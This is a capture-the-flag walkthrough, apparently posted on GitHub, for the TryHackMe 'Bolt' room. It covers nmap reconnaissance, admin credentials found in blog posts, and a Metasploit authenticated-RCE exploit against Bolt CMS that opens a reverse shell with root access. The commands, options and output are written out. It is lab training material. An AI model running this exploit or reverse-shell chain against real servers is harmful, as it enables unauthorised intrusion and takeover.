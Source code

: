 # TryHackMe Walkthrough 
Room link: https://tryhackme.com/r/room/bolt

## Nmap:
```
nmap -sCV -v 10.10.189.54 
```
<pre>
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-22 11:31 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 11:31
Completed NSE at 11:31, 0.00s elapsed
Initiating NSE at 11:31
Completed NSE at 11:31, 0.00s elapsed
Initiating NSE at 11:31
Completed NSE at 11:31, 0.00s elapsed
Initiating Ping Scan at 11:31
Scanning 10.10.189.54 [4 ports]
Completed Ping Scan at 11:31, 0.25s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:31
Completed Parallel DNS resolution of 1 host. at 11:31, 0.05s elapsed
Initiating SYN Stealth Scan at 11:31
Scanning 10.10.189.54 [1000 ports]
Discovered open port 80/tcp on 10.10.189.54
Discovered open port 22/tcp on 10.10.189.54
Discovered open port 8000/tcp on 10.10.189.54
Completed SYN Stealth Scan at 11:31, 5.32s elapsed (1000 total ports)
Initiating Service scan at 11:31
Scanning 3 services on 10.10.189.54
Completed Service scan at 11:32, 29.96s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.189.54.
Initiating NSE at 11:32
Completed NSE at 11:32, 7.69s elapsed
Initiating NSE at 11:32
Completed NSE at 11:32, 11.14s elapsed
Initiating NSE at 11:32
Completed NSE at 11:32, 0.00s elapsed
Nmap scan report for 10.10.189.54
Host is up (2.6s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:85:ec:54:f2:01:b1:94:40:de:42:e8:21:97:20:80 (RSA)
|   256 77:c7:c1:ae:31:41:21:e4:93:0e:9a:dd:0b:29:e1:ff (ECDSA)
|_  256 07:05:43:46:9d:b2:3e:f0:4d:69:67:e4:91:d3:d3:7f (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
8000/tcp open  http    (PHP 7.2.32-1)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: Bolt
|_http-title: Bolt | A hero is unleashed
  
NSE: Script Post-scanning.
Initiating NSE at 11:32
Completed NSE at 11:32, 0.00s elapsed
Initiating NSE at 11:32
Completed NSE at 11:32, 0.00s elapsed
Initiating NSE at 11:32
Completed NSE at 11:32, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
</pre>

## Opening IP in Browser:
### Did not find anything here 
![Screenshot 2024-07-22 210254](https://github.com/user-attachments/assets/257980f2-8be0-4cc6-9350-5099dadccb2c)


### Navigated to the port 8000, This has got some interesting pages
![Screenshot 2024-07-22 215524](https://github.com/user-attachments/assets/909c645b-e3ac-46b1-81ff-52a8e371f220)


### One of the blog reveals to us the username of the admin of the website
![Screenshot from 2024-07-22 11-41-03](https://github.com/user-attachments/assets/04d88e03-e942-4850-bf04-a7ab490d8345)

### And other blog reveals us the password in clear text 
![Screenshot from 2024-07-22 12-29-48](https://github.com/user-attachments/assets/e0753192-9bda-4f46-9a3d-51ab03f2ff99)



## SSH Login:
#### The username and passowrd are not for ssh 
```
ssh bolt@10.10.189.54
```
<pre>
The authenticity of host '10.10.189.54 (10.10.189.54)' can't be established.
ED25519 key fingerprint is SHA256:e1qiq3Gpe8kdF5iw8bxPh9T4IgoUlUqClso+H6525EE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.189.54' (ED25519) to the list of known hosts.
bolt@10.10.189.54's password: 
Permission denied, please try again.
bolt@10.10.189.54's password: 
</pre>

### Went to user manual page of Bolt CMS and found the login page details
![Screenshot 2024-07-22 220916](https://github.com/user-attachments/assets/8038d255-2403-4ed5-a8cb-4168f2383eaa)
### Logged in with the credentials and found the CMS version.

### Searched for the exploit in Exploit DB
![Screenshot 2024-07-22 221151](https://github.com/user-attachments/assets/e21ff7c1-cb55-4069-a53c-b8018886c8e0)

## Started the msfconsole:
#### Searched for the exploit in metasploit and selected the exploit and saw the options to set 
![Screenshot from 2024-07-22 12-14-40](https://github.com/user-attachments/assets/e1aab280-997b-4865-8cca-2f8a3e53eb16)

### Set the options LHOST, RHOSTS, USERNAME, PASSWORD and ran the exploit
<pre>
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set LHOST tun0
LHOST => 10.17.9.110
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set RHOSTS 10.10.189.54
RHOSTS => 10.10.189.54
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set USERNAME bolt
USERNAME => bolt
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set PASSWORD boltadmin123 
PASSWORD => boltadmin123
</pre>
#### RHOST is the ip of the machine
#### LHOST is the ip of our machine’s vpn ( note: we don’t get reverse shell if we use our own ip )
#### USERNAME and PASSWORD is that we found in previous enumeration
#### TARGETURI is where you want to put our website url. here its bolt website in port 8000

## Running the exploit:
```
msf6 exploit(unix/webapp/bolt_authenticated_rce) > run
```
<pre>
[*] Started reverse TCP handler on 10.17.9.110:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "sdkl".
[*] Found 3 potential token(s) for creating .php files.
[+] Deleted file mnlzukxy.php.
[+] Deleted file rdtkllozkg.php.
[+] Used token b54399f7cfb24501eac04a71d2 to create bmphghhjytu.php.
[*] Attempting to execute the payload via "/files/bmphghhjytu.php?sdkl=`payload`"
[!] No response, may have executed a blocking payload!
[*] Command shell session 2 opened (10.17.9.110:4444 -> 10.10.189.54:53504) at 2024-07-22 12:15:03 -0400
[+] Deleted file bmphghhjytu.php.
[+] Reverted user profile back to original state.

whoami
root

</pre>



